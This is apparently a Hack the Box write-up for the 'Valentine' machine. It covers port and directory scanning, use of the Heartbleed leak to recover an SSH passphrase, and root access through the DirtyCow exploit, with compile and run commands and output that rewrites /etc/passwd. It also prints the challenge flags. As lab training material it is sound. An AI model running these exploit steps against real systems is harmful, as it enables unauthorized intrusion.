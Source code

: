 Valentine Report

# Valentine - Hack the Box

First things first.

## Nmap Scan

`nmap -p 1-65535 -T4 -A -v val`

### Results

    PORT    STATE SERVICE VERSION
    22/tcp  open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
    |
    80/tcp  open  http    Apache httpd 2.2.22 ((Ubuntu))
    |
    443/tcp open  ssl/ssl Apache httpd (SSL-only mode)

Two web servers. Let's run dirb on them.

## Dirb Scan

`dirb http://val`

### Results
    ---- Scanning URL: http://val/ ----
    + http://val/cgi-bin/ (CODE:403|SIZE:279)                                                                                                  
    + http://val/decode (CODE:200|SIZE:552)                                                                                                    
    ==> DIRECTORY: http://val/dev/                                                                                                             
    + http://val/encode (CODE:200|SIZE:554)                                                                                                    
    + http://val/index (CODE:200|SIZE:38)                                                                                                      
    + http://val/index.php (CODE:200|SIZE:38)                                                                                                  
    + http://val/server-status (CODE:403|SIZE:284)

### Exploring Dirb Results

Let's check out the directories and webpages dirb found.

#### Dev Directory

    notes.txt
    hype_key

Notes.txt has some interesting info:

To do:

    1) Coffee.
    2) Research.
    3) Fix decoder/encoder before going live.
    4) Make sure encoding/decoding is only done client-side.
    5) Don't use the decoder/encoder until any of this is done.
    6) Find a better way to take notes.

This refers to the encode decode pages dirb found.

I will try to exploit the encode/decode pages. I see it's vulnerable to XSS.

I figured out how to inject php into the encode. I looked up how to encode in php. I found this example:

`<?php
$str = 'Hello World 😊';
echo base64_encode($str);
?>`

Assuming valentine works this way, I can close out the $str and echo a line to test it.

I got a successful test with using:

``

## Software Vulnerabilities

`nmap --script vuln nmap/vulnscan 10.10.10.79`


    | ssl-heartbleed:
    |   VULNERABLE:
    |   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
    |     State: VULNERABLE
    |     Risk factor: High
    |       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
    |           
    |     References:
    |       http://www.openssl.org/news/secadv_20140407.txt
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
    |_      http://cvedetails.com/cve/2014-0160/
  :

## Heartbleed

From nmap I identified that the box is vulnerable to heartbleed. I found a message in the heartbleed leaked info. There was a base64 encoded message so I conveniently used the decoder.  

    aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==

    ---baseb64 decoded--->

    heartbleedbelievethehype

## Getting User

I thought that'd be a great password huh. So, I used the hype_key to ssh into the box. I tried it with the root account. Turns out that'd be too easy. So, I tried hype as the username.

**That Worked!!!**

After some quick enumeration, I found the user.txt file.

    hype@Valentine:~$ cat Desktop/user.txt
    e6710a5464769fd5fcd216e076961750

## Getting Root

Now, I need to figure out how to get root. I checked the linux version

`uname -a`

    Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux

I googled to see if there were any CVEs and DirtyCow is available for this OS.

I created a file and copy/pasted the dirty.c from github.

I followed the instructions in the comments of the file.

`vi dirty.c`

`gcc -pthread dirty.c -o dirty -lcrypt`

`./dirty`

`hype@Valentine:~$ ./dirty toor`

    /etc/passwd successfully backed up to /tmp/passwd.bak
    Please enter the new password: toor
    Complete line:
    firefart:fioaKmuWSeBhQ:0:0:pwned:/root:/bin/bash

    mmap: 7f8035a7b000
    madvise 0

    ptrace 0
    Done! Check /etc/passwd to see if the new user was created.
    You can log in with the username 'firefart' and the password 'toor'.


    DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
    Done! Check /etc/passwd to see if the new user was created.
    You can log in with the username 'firefart' and the password 'toor'.


    DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
    hype@Valentine:~$  su firefart
    Password:

`firefart@Valentine:/home/hype# ls`

I switched to the username: *firefart*

Navigated to */root* and the *root.txt* file was there:

**f1bb6d759df1f272914ebbc9ed7765b2**
